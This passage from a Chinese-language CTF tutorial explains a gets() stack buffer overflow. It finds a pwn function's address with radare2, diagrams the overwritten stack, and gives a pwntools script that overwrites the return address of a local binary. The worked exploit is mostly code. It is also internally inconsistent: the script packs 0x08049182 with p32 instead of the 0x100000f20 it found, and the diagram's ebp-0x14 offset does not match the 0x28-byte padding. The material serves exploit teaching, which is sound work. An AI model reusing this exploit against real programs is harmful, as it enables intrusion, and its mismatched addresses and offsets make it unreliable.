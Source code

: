 看一下pwn的地址

```assembly
            ;-- section.0.__TEXT.__text:
            ;-- func.100000f20:
┌ (fcn) sym._pwn 29
│   sym._pwn ();
│           ; var int32_t var_4h @ rbp-0x4
│           0x100000f20      55             push rbp                   ; [00] -r-x section size 92 named 0.__TEXT.__text
│           0x100000f21      4889e5         mov rbp, rsp
```

发现是`0x100000f20`

假如我们输入的字符串为:`0x28 * 'a' 'bbbb' + pwn_addr`,那么由于gets只有读到回车才停,所以这一段字符串会把saved_ebp覆盖为bbbb,将ret_addr覆盖为pwn_addr,那么,此时栈的结构为:

```
                                           +-----------------+
                                           |   0x100000f20   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

注:

> 前面提到,在内存中,每个值按照字节存储.一般都是按照小端存储,所以0x100000f20 在内存中的形式为

`\x20\x0f\x00\x00\x01`

到这里radare2的任务已经完成了，但是我还是使用python脚本完成这个题目。

```python
#!	/usr/bin/python2
#选择python2解释器

# -*- coding: UTF-8 -*-
#设置utf-8编码,为了支持中文

from pwn import *  #引入pwntools的库

context.log_level = 'debug' # 开启debug模式,可以记录发送和收到的字符串

sh = process('./a')  #构造与程序交互的对象

payload = 'a' * 40 + 'bbbb' + p32(0x08049182)  # 构造payload

sh.sendline(payload)  # 将字符串发送给程序

sh.interactive() # 将代码变为手动交互

```
